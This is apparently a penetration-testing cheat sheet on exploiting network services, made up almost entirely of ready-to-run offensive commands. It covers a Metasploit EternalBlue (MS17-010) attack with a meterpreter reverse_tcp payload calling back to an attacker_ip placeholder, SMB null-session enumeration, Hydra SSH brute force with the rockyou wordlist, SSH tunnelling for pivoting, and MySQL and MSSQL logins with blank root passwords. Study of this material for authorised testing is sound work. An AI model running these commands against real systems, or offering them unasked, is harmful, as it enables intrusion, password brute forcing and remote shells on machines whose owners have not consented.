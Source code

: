 ## 🔧 Network Service Exploitation Fundamentals

### SMB/NetBIOS Exploitation:
```bash
# EternalBlue (MS17-010) - Critical SMB vulnerability
# Metasploit exploitation
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS target_ip
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit

# Manual SMB enumeration and exploitation
smbclient -L //target_ip
smbclient //target_ip/share$ -U guest
enum4linux target_ip

# SMB null session testing
rpcclient -U "" target_ip
smbclient //target_ip/IPC$ -U ""

# Expected results:
# Successful exploitation: Meterpreter session established
# Manual enumeration: Share access, user enumeration
```

### SSH Service Exploitation:
```bash
# SSH brute force attacks
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://target_ip
hydra -L users.txt -P passwords.txt ssh://target_ip

# SSH key-based attacks
ssh-keygen -t rsa -b 2048 -f id_rsa
ssh-copy-id user@target_ip
ssh -i id_rsa user@target_ip

# SSH tunneling for pivoting
ssh -L local_port:target_host:target_port user@pivot_host
ssh -D 8080 user@target_ip  # SOCKS proxy

# SSH version-specific exploits
searchsploit openssh
msfconsole
search ssh
use exploit/linux/ssh/ssh_login
```

### Database Service Exploitation:
```bash
# MySQL exploitation
mysql -h target_ip -u root -p
mysql -h target_ip -u root  # No password

# MySQL privilege escalation
mysql> select user();
mysql> show grants;
mysql> select * from mysql.user;

# MSSQL exploitation
mssqlclient.py username:password@target_ip
```